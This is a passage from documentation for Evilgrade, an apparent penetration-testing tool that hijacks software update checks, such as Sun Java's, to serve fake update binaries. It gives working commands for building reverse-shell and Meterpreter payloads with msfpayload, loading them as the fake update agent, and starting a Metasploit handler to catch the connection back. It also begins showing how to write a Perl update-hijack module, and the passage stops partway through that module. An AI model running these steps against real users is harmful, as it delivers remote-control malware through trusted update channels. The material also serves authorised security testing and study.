 In this case for every required update binary we generate a fake update binary with the payload "windows/shell_reverse_tcp"
using a reverse shell to connect at address 192.168.233.2 port 4141.
The label <%OUT%><%OUT> is a special tag to detect where the output binary is going to be generated.
Evilgrade detects the usage of "dynamic fake update binary feature" due to having a sentence between squared brackets '[]'
Inside that brackets we have a string that is also between brackets "" that is compiled using perl.

For example if we use:
```
evilgrade(sunjava)>set agent '["./generatebin -o <%OUT%>/tmp/update".int(rand(256)).".exe<%OUT%>"]'
```
then every time we get a binary request, evilgrade will compile the line and execute the final string "./generatebin -o /tmp/update(random).exe"
generating different agents.


An easy alternative, but not dynamically, could be to generate the payload directly from msfpayload on a terminal and assign it manually to the configuration of the module.

# Example 2:

(Outside evilgrade)
```
[team@infobyte]$ msfpayload windows/meterpreter/reverse_ord_tcp LHOST=192.168.100.2 LPORT=4444 X > /tmp/reverse-shell.exe
```

(Inside evilgrade)
```
evilgrade(sunjava)>set agent /tmp/reverse-shell.exe
```

After our payload was generated, we leave a multi handler listening on the previously assigned LHOST.

(Outside evilgrade)
```
[team@infobyte]$ msfcli exploit/multi/handler PAYLOAD=windows/shell/reverse_tcp LHOST=192.168.100.2 LPORT=4444 E
[*] Started reverse handler on 192.168.100.2:4444
[*] Starting the payload handler...
```

## .:: [MODULE DEVELOPMENT] ::.

Module development is very simple. Since evilgrade is based on modules, you just have to use a package .pm (perl module).
In this case we are going to describe the sunjava update module (comments with #):

``` perl
package modules::sunjava;

use strict;
use Data::Dump qw(dump);

my $base=
{
    'name' => 'Sun Microsystems Java', #name of the module to display in the framework
    'version' => '2.0', #internal module version
    'appver' => '<= 1.6.0_22', #last application version tested with this evilgrade module
    'author' => [ 'Francisco Amato < famato +[AT]+ infobytesec.com>' ], #author
    'description' => qq{}, #brief description
    'vh' => '(java.sun.com|javadl-esd.sun.com)', #VirtualHosts that the application uses to retrieve information about the update configuration files and update binaries.

    #Then we have the request object's collection
```